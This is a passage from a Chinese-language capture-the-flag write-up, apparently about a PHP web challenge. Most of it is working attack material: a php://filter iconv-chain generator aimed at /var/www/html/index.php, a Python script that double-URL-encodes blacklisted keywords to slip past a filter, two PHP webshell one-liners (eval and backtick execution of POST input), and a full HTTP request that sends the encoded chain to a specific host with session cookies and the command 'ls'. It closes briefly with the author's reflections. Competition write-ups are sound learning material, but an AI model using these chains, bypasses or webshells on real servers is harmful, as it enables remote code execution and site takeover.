    '2' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE',
    '6' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'A' => 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    'E' => 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'F' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'G' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H' => 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'I' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'J' => 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'K' => 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'L' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'M' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'N' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'O' => 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'P' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'Q' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
    'S' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    'T' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'V' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'W' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'X' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'Y' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
    'Z' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'a' => 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'b' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'c' => 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'f' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'h' => 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'i' => 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'j' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'k' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'l' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'm' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'n' => 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'o' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'p' => 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'r' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    's' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    't' => 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'u' => 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'v' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO_6937-2:1983.R9|convert.iconv.OSF00010005.IBM-932',
    'w' => 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'x' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'y' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'z' => 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}

$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=/var/www/html/index.php";
echo $final_payload;
```

但是我们刚才哪里是看到了的有很多黑名单，老规矩，二次编码绕过，写脚本但是不要写php，php来写的话有编码不到的部分

```python
import re

# 定义要匹配的关键词
a = "string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|_|ve|se"
keywords = a.split('|')

def encode_keywords(text):
    for keyword in keywords:
        # 将每个关键词的第一个字符转为十六进制表示
        if keyword in text:
            tmp = keyword[0]
            hex_value = hex(ord(tmp))[2:]  # 获取字符的十六进制值
            replacement = f'%25{hex_value}{keyword[1:]}'  # 构建替换字符串
            text = text.replace(keyword, replacement)  # 替换文本中的关键词
    return text

# 示例输入
text = "php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7||convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7||convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/var/www/html/index.php"
result = encode_keywords(text)
print(result)

```

我脚本经过我的长久对线，我发现人机根本写不出来，然后我就发现这个长度太长了，那么我们得压缩一下木马了

```
<?php @eval($_POST[1]);?>
<?=`$_POST[1]`;?>

/var/www/html/index.php->index.php
```

```http
POST /guest.php?path=php://filter/%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7||%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.EUCTW|%2563on%2576ert.%2569conv.L4.U%2554F8|%2563on%2576ert.%2569conv.IEC%255fP271.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.865.U%2554F16|%2563on%2576ert.%2569conv.%2543P901.%2549SO6937|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.EUCTW|%2563on%2576ert.%2569conv.L4.U%2554F8|%2563on%2576ert.%2569conv.866.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.8859%255f3.U%2554F16|%2563on%2576ert.%2569conv.863.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.PT.U%2554F32|%2563on%2576ert.%2569conv.KOI8-U.I%2542M-932|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P-AR.U%2554F16|%2563on%2576ert.%2569conv.8859%255f4.BIG5HKS%2543S|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.I%2542M869.U%2554F16|%2563on%2576ert.%2569conv.L3.%2543S%2549SO90|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.L5.U%2554F-32|%2563on%2576ert.%2569conv.%2549SO88594.GB13000|%2563on%2576ert.%2569conv.%2543P950.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2569conv.UHC.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P861.U%2554F-16|%2563on%2576ert.%2569conv.L4.GB13000|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.L6.UNICODE|%2563on%2576ert.%2569conv.%2543P1282.%2549SO-IR-90|%2563on%2576ert.%2569conv.%2543SA%255fT500.L4|%2563on%2576ert.%2569conv.%2549SO%255f8859-2.%2549SO-IR-103|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2549SO6937.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.I%2542M860.U%2554F16|%2563on%2576ert.%2569conv.%2549SO-IR-143.%2549SO2022CNEXT|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2543P1133.I%2542M932|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P367.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M901.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.PT.U%2554F32|%2563on%2576ert.%2569conv.KOI8-U.I%2542M-932|%2563on%2576ert.%2569conv.SJ%2549S.EUC%254aP-WIN|%2563on%2576ert.%2569conv.L10.%2555%2543S4|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P367.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M901.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2569conv.UHC.%2543P1361|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2549SO6937.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.L6.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.U%2554F8|%2563on%2576ert.%2569conv.SJ%2549S.GBK|%2563on%2576ert.%2569conv.L10.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2562a%2573e64-%2564ecode/resource=index.php HTTP/1.1
Host: 125.70.243.22:31680
referer: http://125.70.243.22:31680/
Cache-Control: no-cache
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Accept-Encoding: gzip, deflate
Cookie: session=LxXwPegFNr38g9Vvl9obkEL2fYUMOGjUf3eQKuP2nB9-PniL1WH89I8bmkfa0HOspLJylT9iiawe78uZfexxFVsxNzMzODIyMTMwLCAxNzMzNzk1MzQ3LjE4NDE5NTgsIHsidXNlcm5hbWUiOiAiYWRtaW4ifV0; PHPSESSID=fdjkph0apthvvou9at0a00np9k
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Content-Length: 6123

1=ls
```

# 0x03 小结

这次比赛我既欢喜又桑心，欢喜的是终于有了很高的体验感，桑心的是爆0了，为啥说我有很高的体验感呢，因为我是真的起床就在打，然后打到晚上头昏了，之前从来没有过，桑心的是这真难啊，包括我浮现也是一直在踩坑，就很难受，期间问了挺多师傅的，这里也不一一说了，**谢谢各位师傅们**！


